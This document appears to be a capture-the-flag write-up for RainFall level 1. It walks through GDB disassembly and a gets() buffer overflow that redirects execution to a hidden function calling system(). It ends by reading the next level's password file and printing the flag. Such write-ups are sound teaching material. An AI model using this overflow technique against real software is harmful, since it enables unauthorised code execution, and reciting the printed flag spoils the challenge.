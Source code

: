 # LEVEL 1

To this level, we will firstly take a look on functions inside our program with GDB.

```shell
level1@RainFall:~$ gdb -q level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

As we can see we have a unknown function ```run()``` let's see what's inside.

```shell
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

The ```run()``` function call the ```system()``` function, we can easily understand that we will use this call to capture the level1 flag. But ```run()``` isn't call in ```main()```.

So to do this level i gonna use a vulnability of ```gets()``` to launch a **Buffer Overflow Attack** which means that we gonna overflow the buffer used by ```gets()``` and overwrite on the return address of ```main()```.

But to do this thing we need to know the buffer size. After many tests we've got this result :

```shell
level1@RainFall:~$ python -c 'print "\x90"*76' | ./level1
Illegal instruction (core dumped)
```
This means that our buffer is a size of 76. So we can fill our buffer with 76 characters then add our ```run()``` function address to change the main return address with ours.

```shell
level1@RainFall:~$ python -c 'print "\x90"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
Perfect but the program closes right after the command, so we will add a echo print to ask the program what we want to do.

```shell
level1@RainFall:~$ (python -c 'print "\x90"*76 + "\x44\x84\x04\x08"'; echo "cat /home/user/level2/.pass") | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)
```

